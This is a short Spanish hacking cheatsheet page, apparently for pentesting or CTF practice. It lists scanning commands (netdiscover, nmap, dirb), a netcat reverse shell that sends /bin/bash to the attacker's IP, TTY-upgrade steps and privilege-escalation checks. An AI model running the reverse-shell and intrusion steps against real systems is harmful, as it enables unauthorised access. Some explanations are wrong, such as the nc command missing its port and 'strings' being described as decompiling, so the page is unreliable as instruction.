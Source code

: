 ```yaml
---
title: CheatSheet
description: Cheatsheet de todos los comandos usados en Hacking
published: true
date: 2024-12-26T15:53:01.875Z
tags: 
editor: markdown
dateCreated: 2024-12-20T19:29:53.236Z
---
```


# Comandos
Esta sección está dedicada a comandos usados de forma común en hacking.
## Detección
Para la detección de IPs, podremos hacer uso de varios comandos como:
```bash
sudo netdiscover -r (Rango de IP)
```
La detección de puertos, podemos hacer uso de NMap o Nessus. Con NMap seria el siguiente comando:
```bash
sudo nmap -sC -sV (IP)
```
Para la detección de subdirectorios podemos hacer uso de:
```bash
sudo dirb (Enlace)
```
## Shell reversa
Una shell reversa, consiste en una shell ya segurizada que usaremos para poder escribir comandos, primero deberemos poner en nuestra máquina:
```bash
nc -lnvp (Puerto)
```

Tras esto en la máquina vulnerada, deberemos intentar poner el siguiente comando para poder obtener una shell reversa.
```bash
sudo nohup nc -e /bin/bash (Nuestra IP) &
```


### Securizar la shell
Para poder securizarla, deberemos escribir en la shell reversa lo siguiente:
```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

Tras esto haremos un Crtl + Z, para poner los siguientes comandos:
```bash
stty raw -echo;fg
```
Tras esto, deberemos hacer Enter 2 veces y por último poner el siguiente comando
```bash
export TERM=xterm
```
## Escalada de privilegios
Cuando intentemos hacer una escalada de privilegios, deberemos tener en cuenta que comandos permisos tiene nuestro usuario para poder realizarlo. Para ello ponemos:

```bash
sudo -l
```
Los datos obtenidos deberemos compararlos en: [GtFobins](https://gtfobins.github.io)

## Ingeniería inversa
Cuando tengamos un archivo .exe, deberemos intentar poder descompilarlo. Para ello podemos usar el siguiente comando.
```bash
sudo strings (Fichero)
```